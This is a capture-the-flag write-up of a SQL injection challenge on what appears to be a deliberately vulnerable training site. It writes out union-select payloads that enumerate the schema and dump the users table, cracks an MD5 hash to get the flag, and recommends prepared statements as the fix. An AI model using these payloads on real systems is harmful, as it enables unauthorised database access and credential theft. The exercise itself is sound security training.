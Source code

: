 # Where:
    /?page=member
# How:
-By entering:

    -1 union select null, concat (table_name) from information_schema.tables where table_schema = database ()

-We get the following output:

    ID: -1 union select null, concat (table_name) from information_schema.tables where table_schema = database () 
    First name: 
    Surname : users
    
-This tells us that the only table is *users*.

-We then enter:

    -1 union select null, concat (column_name) from information_schema.columns where table_schema = database ()

-We get the following output:

    ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
First name: 
Surname : user_id
ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
First name: 
Surname : first_name
ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
First name: 
Surname : last_name
ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
First name: 
Surname : town
ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
First name: 
Surname : country
ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
First name: 
Surname : planet
ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
First name: 
Surname : Commentaire
ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
First name: 
Surname : countersign

    
-This tells us that there are the following columns: *user_id*, *first_name*, *last_name*, *town*, *country*, *planet*, *Commentaire* and *countersign*.

-We then enter:

    -1 union select NULL, concat (user_id, first_name, last_name, town, country, planet, Commentaire, countersign) from users

-We get all the users' information.
-The 5th user has the following info and instructions:

    user_id: 5,
    first_name: Flag,
    last_name: GetThe,
    town: 42,
    country: 42,
    planet: 42,
    Commentaire: Decrypt this password -> then lower all the char. Sh256 on it and it's good !,
    countersign: 5ff9d0165b4f92b14994e5c685cdce28

-If we decrypt *5ff9d0165b4f92b14994e5c685cdce28* at [MD5 Online](https://www.md5online.org/md5-decrypt.html) we receive the word *FortyTwo*
-Which we change to all be lowercase then hash using sha256 at [sha256 hash calculator](https://xorbin.com/tools/sha256-hash-calculator) to receive the flag.

# Flag:
    10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

# Possible abuses:
Hackers could potentially access all info in your BD even hashed passwords could potentially be decrypted using sites.

# Fix:
Use [prepared statements](https://www.w3schools.com/php/php_mysql_prepared_statements.asp) to prevent sql injections.
I do also believe sha256 is a better hash to use especialy when combined with a salt.
